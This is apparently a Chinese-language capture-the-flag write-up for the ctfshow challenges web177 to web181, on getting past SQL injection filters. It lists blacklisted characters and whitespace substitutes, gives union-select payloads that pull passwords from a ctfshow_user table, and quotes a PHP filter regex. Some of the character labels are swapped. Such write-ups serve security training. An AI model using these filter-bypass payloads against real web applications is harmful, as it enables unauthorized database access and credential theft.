 #### web177

**黑名单**：空格、+

**空格替代**：%20（普通空格）、%09（水平制表符）、%0a（换行符）、%0b（回车符）、%0c（新一页）、%0d（垂直制表符）、%a0、()、``、\\**\\

可以用\\**\\绕过

```
1'/**/union/**/select/**/password,1,1/**/from/**/ctfshow_user/**/where/**/username/**/='flag'%23
```

方法二:万能钥匙



#### web178

**黑名单增加**：%20、*

```
1'%09union%09select%09password,1,1%09from%09ctfshow_user%09where%09username%09='flag'%23
```

方法二:万能钥匙



#### web179

**黑名单增加**：%09、%0a、%0b、%0d

这题把%09也过滤了，这题空格可以用%0c绕过

```
1'union%0cselect%0c1,2,password%0cfrom%0cctfshow_user%23
```



#### web180

**黑名单增加**：#

可以用--%0c代替#(%23)

```
1'union%0cselect%0c1,2,password%0cfrom%0cctfshow_user--%0c
```

或者直接万能密码

```
id=-1'or(id=26)and'1'='1
```



#### web181

```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select/i', $str);
  }
```
